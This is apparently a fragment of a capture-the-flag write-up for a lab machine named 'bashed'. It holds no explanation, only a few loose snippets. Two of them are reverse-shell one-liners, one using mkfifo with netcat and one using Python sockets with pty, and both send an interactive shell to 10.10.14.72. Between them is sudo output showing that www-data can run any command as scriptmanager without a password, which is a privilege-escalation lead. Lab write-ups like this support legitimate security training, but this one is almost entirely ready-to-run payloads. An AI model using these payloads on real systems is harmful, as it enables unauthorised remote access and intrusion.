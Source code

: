 rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 1234 >/tmp/f  


User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")